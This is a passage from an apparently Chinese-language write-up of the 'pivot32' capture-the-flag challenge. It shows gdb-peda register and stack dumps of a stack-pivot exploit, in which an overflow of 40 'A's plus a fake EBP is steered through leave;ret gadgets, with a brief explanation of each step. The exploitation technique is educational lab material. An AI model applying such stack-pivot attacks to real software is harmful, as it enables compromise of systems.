 ```
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec6c --> 0x804889f (<pwnme+173>:    leave)
0004| 0xffe7ec70 --> 0xf755000a --> 0x0 
0008| 0xffe7ec74 --> 0x0 
0012| 0xffe7ec78 --> 0x2 
0016| 0xffe7ec7c --> 0x0 
0020| 0xffe7ec80 --> 0x1 
0024| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0028| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
```
EBP 的值 `0xffe7ec68` 被赋值给 ESP，然后从栈中弹出 `0xf755cf0c`，即 fake ebp 并赋值给 EBP，同时 ESP+4=`0xffe7ec6c`，指向第二次的 leave。

执行第一次 ret：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xf755cf0c --> 0x0 
ESP: 0xffe7ec70 --> 0xf755000a --> 0x0 
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec70 --> 0xf755000a --> 0x0 
0004| 0xffe7ec74 --> 0x0 
0008| 0xffe7ec78 --> 0x2 
0012| 0xffe7ec7c --> 0x0 
0016| 0xffe7ec80 --> 0x1 
0020| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0024| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
0028| 0xffe7ec8c --> 0xf655d010 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
```